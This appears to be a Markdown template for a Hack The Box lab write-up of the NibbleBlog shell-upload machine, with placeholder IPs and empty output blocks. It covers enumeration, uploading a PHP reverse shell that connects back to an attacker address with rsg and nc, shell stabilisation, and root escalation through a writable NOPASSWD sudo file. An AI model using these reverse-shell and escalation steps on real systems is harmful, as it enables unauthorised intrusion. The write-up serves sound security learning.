 ```yaml
---
title: "HTB - Box"
author: "Anubhavsingh Sawdagur"
date: "DATE_NOW"
subject: "Markdown"
subtitle: "10.10.10."
lang: "en-GB"
book: true
classoption: oneside
code-block-font-size: \scriptsize   
output: 
  pdf_document:
    fig_caption: false
---
```


# Box - 10.10.10.

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.
```

```bash

```

## Website

```bash
curl -svk "http://10.10.10." | grep . 
```

The command above is a quick way to see what is on the webpage without opening it in a browser. And it shows much more than what is displayed on the browser such as **headers** and **html comments**. The server header can be crossed check with the nmap results. The comment indicates that there is a directory named **nibbleblog** on the server.

## Gobuster

Enumerating the Apache webserver with gobuster.

```bash
gobuster dir -t 50 -w /usr/share/seclists/Discovery/Web-Content/common.txt -o log/gobuster.out -u http://10.10.10.
```

```bash

```

Searchsploit is used to search known exploits for:  

```bash

```

# Exploitation

### **Vulnerability Explanation:**

source: [https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html)

### Proof Of Concept

The metasploit exploit can be easily replicated manually without using metasploit.

A simple php script is created. When testing exploits, it is highly recommended to keep the proof of concept as simple as possible as it is less likely to be blocked. 

Example: `echo` is less likely to be blocked compared to `exec` or `system`. 

```php
<?php 
    echo "test test test";
?>
```


### Getting a reverse shell

On kali linux, these are some default location where php reverse shells can be found.

```bash
$ locate php-reverse                                                                             
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
```

```bash
cp /usr/share/laudanum/php/php-reverse-shell.php shell.php
```

Editing the php reverse shell to connect to the attacker's IP address.

The tools used here to generate quick  reverse shell is called [rsg or reverse shell generator](https://github.com/mthbernardes/rsg)

```bash
# generates payload and as well as listens on the specified port
rsg 10.10.14.23 8888 bash
```

The attacker then uploads the shell.php and sets up **nc** to listen for an incoming connection on port **8888**.

The reverse shell is then stabilised using the following commands.

```bash
which python3 # to know which python version exists
python3 -c 'import pty;pty.spawn("/bin/bash")' # gets a proper tty shell
# the shell is then backgrounded using ctrl+z
stty raw -echo # this is executed on the attackers machine
# then press fg to resume the tty shell
export TERM=xterm # after setting the terminal type, the screen can now be cleared
stty rows 42 cols 172 # sets the size for the tty shell
```

### User.txt

```bash
find /home -type f -ls 2>/dev/null
```

**User.txt** can be found in the home directory of **user**.

```bash
cat /home/user/user.txt
```

photo

> user.txt flag: ``

# Post Exploitation

## Privilege Escalation to Root

As can be seen below, the user **user** can execute the file **file** *without the need of a password*.

```bash
sudo -l
...[snip]...
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: file
```

### **Vulnerability Explanation:**

The file **file** is world-writable. The content of the file can be modified to drop a shell. When running the file as root, the attacker will be get a root shell.

### Root.txt

### **Vulnerability Explanation:**

the **root.txt** file is always located in **/root/**

```bash
cat /root/root.txt
```

photo

> root.txt flag: ``

